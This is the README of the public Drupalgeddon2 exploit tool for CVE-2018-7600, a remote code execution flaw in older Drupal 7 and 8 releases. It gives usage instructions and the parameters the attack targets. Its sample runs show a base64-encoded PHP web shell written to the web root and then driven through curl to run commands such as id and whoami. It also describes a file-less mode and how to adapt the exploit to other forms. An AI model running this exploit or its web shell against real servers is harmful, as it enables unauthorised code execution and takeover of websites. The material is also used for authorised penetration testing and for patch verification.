 # CVE-2018-7600 | Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `exec` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- With or without a writeable web root or sub-directories

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_.

Authors:
- [Hans Topo](https://github.com/dreadlocked)  _([@\_dreadlocked](https://twitter.com/_dreadlocked))_
- [g0tmi1k](https://blog.g0tmi1k.com/) _([@g0tmi1k](https://twitter.com/g0tmi1k))_


Ey! Before opening an issue, please, read the throubleshooting section at the end of this readme. Thanks!

- - -


## Usage:

```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt (404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt (200)
[+] Drupal!: 8.4.5
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo MEWQTESC
[+] Result : MEWQTESC<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt (200)
[+] Drupal!: 7.55
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo FLUBCTEZ
[+] Result : FLUBCTEZ
[{"command":"settings","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}}}]
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> whoami
www-data
ubuntu140045x64-drupal>>
```


#### File-Less Method

If you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
writeshell = true
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = '192.168.0.130'
proxy_port = 8080
```


- - -


## Troubleshooting:

- Sometimes, websites may redirect to another path where Drupal exists (such as `30x` responses). Solution: Make sure you are using the correct Drupal path.
- Drupal v7.x - If `/user/password` form is disabled, maybe you should find another form, but remember to change the exploit. Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability.
- If you cannot write a shell using drupalgeddon2.rb, use do-not-use.rb, this script doesn't write a shell to disk, and allows you to use whatever php method you want.


- - -


## Links:

- **Write up & Research** ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- cURL commands ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
- CVE ~ https://nvd.nist.gov/vuln/detail/CVE-2018-7600
